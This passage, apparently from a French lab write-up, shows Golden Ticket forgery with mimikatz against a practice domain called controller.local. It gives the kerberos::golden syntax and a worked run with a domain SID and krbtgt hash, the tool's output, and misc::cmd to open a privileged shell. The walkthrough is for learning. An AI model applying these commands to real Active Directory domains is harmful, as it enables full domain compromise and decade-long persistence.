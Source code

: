 
#### Création du Golden Ticket

**Syntaxe de la commande :**

```
kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /id:<USER_RID>
```

**Création du ticket :**

```powershell
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500

User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 10/18/2025 8:15:36 AM ; 10/16/2035 8:15:36 AM ; 10/16/2035 8:15:36 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

> Le Golden Ticket créé est valide pendant 10 ans, offrant une persistance extrême sur le domaine.
{: .prompt-danger }

---

#### Utilisation du Golden Ticket

**Ouverture d'une invite de commande avec privilèges élevés :**

```powershell
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7C43943B8
```

Cette commande ouvre une nouvelle interface de commande avec accès complet à toutes les machines du domaine grâce au Golden Ticket.

---

### Task 6 - Enumeration w/ Server Manager

#### Énumération avec les outils Windows natifs

